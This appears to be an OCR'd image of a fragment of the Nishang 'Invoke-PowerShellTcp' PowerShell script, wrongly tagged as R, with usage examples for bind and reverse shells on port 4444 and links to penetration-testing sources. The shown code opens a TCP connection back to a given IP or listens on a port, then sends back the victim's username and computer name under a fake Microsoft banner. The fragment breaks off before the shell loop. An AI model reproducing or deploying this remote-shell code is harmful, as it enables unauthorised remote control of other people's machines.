 ```r
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

```